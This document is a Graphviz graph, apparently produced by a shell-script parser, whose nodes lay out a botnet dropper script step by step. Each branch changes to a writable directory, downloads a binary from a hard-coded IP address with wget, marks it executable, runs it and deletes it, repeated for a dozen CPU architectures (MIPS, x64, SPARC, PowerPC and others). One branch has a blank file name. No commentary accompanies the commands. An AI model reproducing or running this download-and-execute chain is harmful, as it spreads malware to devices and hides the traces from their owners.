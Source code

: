 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://185.158.113.241/r00tymips "];
10 -> 12 [label=";,"];
12 [label="chmod +x r00tymips "];
12 -> 14 [label=";,"];
14 [label="./r00tymips "];
14 -> 16 [label=";,"];
16 [label="rm -rf r00tymips "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://185.158.113.241/r00tymipsel "];
28 -> 30 [label=";,"];
30 [label="chmod +x r00tymipsel "];
30 -> 32 [label=";,"];
32 [label="./r00tymipsel "];
32 -> 34 [label=";,"];
34 [label="rm -rf r00tymipsel "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://185.158.113.241/r00tysh4 "];
46 -> 48 [label=";,"];
48 [label="chmod +x r00tysh4 "];
48 -> 50 [label=";,"];
50 [label="./r00tysh4 "];
50 -> 52 [label=";,"];
52 [label="rm -rf r00tysh4 "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://185.158.113.241/r00tyx64 "];
64 -> 66 [label=";,"];
66 [label="chmod +x r00tyx64 "];
66 -> 68 [label=";,"];
68 [label="./r00tyx64 "];
68 -> 70 [label=";,"];
70 [label="rm -rf r00tyx64 "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://185.158.113.241/r00typhones "];
82 -> 84 [label=";,"];
84 [label="chmod +x r00typhones "];
84 -> 86 [label=";,"];
86 [label="./r00typhones "];
86 -> 88 [label=";,"];
88 [label="rm -rf r00typhones "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://185.158.113.241/r00tyi686 "];
100 -> 102 [label=";,"];
102 [label="chmod +x r00tyi686 "];
102 -> 104 [label=";,"];
104 [label="./r00tyi686 "];
104 -> 106 [label=";,"];
106 [label="rm -rf r00tyi686 "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://185.158.113.241/r00typpc "];
118 -> 120 [label=";,"];
120 [label="chmod +x r00typpc "];
120 -> 122 [label=";,"];
122 [label="./r00typpc "];
122 -> 124 [label=";,"];
124 [label="rm -rf r00typpc "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://185.158.113.241/r00tyftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x r00tyftp "];
138 -> 140 [label=";,"];
140 [label="./r00tyftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf r00tyftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://185.158.113.241/r00typftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x r00typftp "];
156 -> 158 [label=";,"];
158 [label="./r00typftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf r00typftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://185.158.113.241/r00tysparc "];
172 -> 174 [label=";,"];
174 [label="chmod +x r00tysparc "];
174 -> 176 [label=";,"];
176 [label="./r00tysparc "];
176 -> 178 [label=";,"];
178 [label="rm -rf r00tysparc "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://185.158.113.241/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://185.158.113.241/r00tyhttpd "];
208 -> 210 [label=";,"];
210 [label="chmod +x r00tyhttpd "];
210 -> 212 [label=";,"];
212 [label="./r00tyhttpd "];
212 -> 214 [label=";,"];
214 [label="rm -rf r00tyhttpd "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://185.158.113.241/r00tytelnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x r00tytelnetd "];
228 -> 230 [label=";,"];
230 [label="./r00tytelnetd "];
230 -> 231 [label=";,"];
}
